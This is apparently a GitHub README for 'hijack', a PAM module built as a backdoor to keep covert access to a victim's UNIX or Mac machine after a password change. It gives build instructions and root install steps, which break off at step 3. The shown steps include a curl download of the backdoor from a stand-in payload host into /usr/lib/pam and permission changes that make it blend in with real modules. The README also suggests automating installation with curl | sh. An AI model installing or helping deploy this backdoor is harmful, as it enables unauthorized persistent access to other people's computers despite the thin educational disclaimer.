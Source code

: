 # hijack
A PAM module created to act as a shim enabling sustained "legitimate" access to an unsuspecting victim's UNIX-based computer, even in the event of a password change.

**DISCLAIMER**
 - This small utility is provided for educational use on machines you yourself own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using hijack under other conditions.
 - Hijack is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the "secret" password hijack checks against is simply a string literal stored in plaintext within the hijack binary. Anyone who greps through the binary can see it – you can try this yourself if you'd like: just run `strings /usr/lib/pam/hijack.so` and you should see your password in the output. Bad design, I know. I'm just too lazy to fix it.

## Features (& Relevant Caveats)
This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically function on any UNIX system that employs PAM authentication.

IMPORTANT: Hijack does *not* affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. Hijack **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.

## Building
Building hijack is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook, YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you *want* to have Xcode).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

1. Move a copy of the shared library file `hijack.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others you might have to resort to a command such as `locate pam_rootok`. On Mac OS X however, it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/hijack.so -o /usr/lib/pam/hijack.so
```
2. Change the permission attributes of `/usr/lib/pam/hijack.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case, because I downloaded the file as root, it already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel hijack.so
    # chmod 0444 hijack.so
```
3.
